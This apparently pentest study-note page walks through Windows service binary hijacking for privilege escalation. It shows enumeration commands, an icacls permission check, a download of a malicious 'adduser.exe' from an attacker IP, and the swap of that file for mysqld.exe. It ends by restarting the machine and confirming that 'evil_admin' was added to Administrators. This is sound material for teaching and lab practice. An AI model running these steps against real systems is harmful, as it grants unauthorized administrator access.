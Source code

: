 # Service Binary Hijacking

Each Windows service has an associated binary file that is executed on startup. If these binary files aren't properly secured, a user can replace it with malicious code.

For example, a user installs an application and makes it a Windows service but accidentally allows Read Write (RW) permissions for all users. We can replace this application with a malicious binary, and restart the service, or restart the system system and the malicious binary will execute.

***

## Enumerating Services

To get a list of installed Windows services we can choose a variety of different tools. **(Get-Service, Get-Ciminstance, GUI services.msc)**.&#x20;

### Get-Ciminstance

_<mark style="color:red;">**NOTE:**</mark>_ Get-CimInstance and Get-Service will return "Permission denied" if using WinRM. A RDP session will fix this on a non-administrative user.

```
PS C:\Users\dave> Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

Name                      State   PathName
----                      -----   --------
Apache2.4                 Running "C:\xampp\apache\bin\httpd.exe" -k runservice
Appinfo                   Running C:\Windows\system32\svchost.exe -k netsvcs -p
AppXSvc                   Running C:\Windows\system32\svchost.exe -k wsappx -p
AudioEndpointBuilder      Running C:\Windows\System32\svchost.exe -k LocalSystemNetworkRestricted -p
Audiosrv                  Running C:\Windows\System32\svchost.exe -k LocalServiceNetworkRestricted -p
BFE                       Running C:\Windows\system32\svchost.exe -k LocalServiceNoNetworkFirewall -p
BITS                      Running C:\Windows\System32\svchost.exe -k netsvcs -p
BrokerInfrastructure      Running C:\Windows\system32\svchost.exe -k DcomLaunch -p
...
mysql                     Running C:\xampp\mysql\bin\mysqld.exe --defaults-file=c:\xampp\mysql\bin\my.ini mysql
...
```

#### What we're looking for

We're looking for services that are installed in locations other than **C:\Windows\System32.** These applications are **user installed.**  For example**: C:\xampp\\.**

## Enumerating Permissions

Once we've enumerated the installed service and found one of interest, we can view the permissions.  We can use tools like: _**icacls**_ Windows utility or the PowerShell Cmdlet _**Get-ACL**_

| MASK | PERMISSIONS             |
| ---- | ----------------------- |
| F    | Full access             |
| M    | Modify access           |
| RX   | Read and execute access |
| R    | Read-only access        |
| W    | Write-only access       |

### **icacls - Check Permissions of service**

```
PS C:\Users\dave> icacls "C:\xampp\mysql\bin\mysqld.exe"
C:\xampp\mysql\bin\mysqld.exe NT AUTHORITY\SYSTEM:(F)
                              BUILTIN\Administrators:(F)
                              BUILTIN\Users:(F)

Successfully processed 1 files; Failed processing 0 files
```

**Here we see the "Users" group has Full access to modify the binary.**&#x20;

## Transfer Malicious Binary - iwr

Our malicious binary creates a new user and adds it to Adminstrators group

```
iwr -uri http://192.168.119.3/adduser.exe -Outfile adduser.exe
```

## Move Malicious Binary to Service - Move

```
# Move target binary out of directoy.

PS> move C:\xampp\mysql\bin\mysqld.exe mysqld.exe

# Move malicious binary & rename to original.

PS> move .\adduser.exe C:\xampp\mysql\bin\mysqld.exe
```

## Restart Service

If we have permissions on the service we can restart the service with `Restart-Service`, otherwise see below.

```
Restart-Service -name "ServiceName With Malicious exe"
```

## Restart

We'll need to restart the computer since most services are protected by Admistrators.&#x20;

```
PS C:\Users\dave> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== ========
SeSecurityPrivilege           Manage auditing and security log     Disabled
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
```

We're able to restart the system.

_**Shutdown Computer:**_

```
PS C:\Users\dave> shutdown /r /t 0 
```

## Verify Exploit

```
PS> Get-LocalGroupMember administrators

User        CLIENTWK220\Admin            Local
User        CLIENTWK220\evil_admin       Local
```
